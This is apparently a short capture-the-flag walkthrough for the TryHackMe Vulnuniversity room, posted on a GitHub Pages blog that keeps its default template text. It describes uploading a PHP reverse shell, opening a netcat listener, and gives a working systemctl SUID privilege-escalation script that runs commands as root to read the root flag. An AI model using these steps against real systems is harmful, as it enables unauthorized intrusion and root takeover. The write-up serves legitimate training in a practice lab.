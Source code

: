 # Welcome to VLnBlog 

## Vlnuniversity THM

**TargetIP:3333/internal/uploads/    (use directory  brute force to get this dir)**

**Now upload a php reverse shell with .phtml extension**
nc -lnvp 1234

now go to user bill and get the user flag:

cd /home/bill/ ; ls   (now use cat and get he flag here)

### systemclt SUID exploit
```TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id;ls /root;cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF


Post this run following to enable the services:
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

Now go to /tmp directory and cat output:
cat /tmp/output (Red colored highlighted commands out will display)

boom we got the root flag here'''


[Link](url) and ![Image](src)
```

For more details see [Basic writing and formatting syntax](https://docs.github.com/en/github/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/vlngod/vlnblog/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
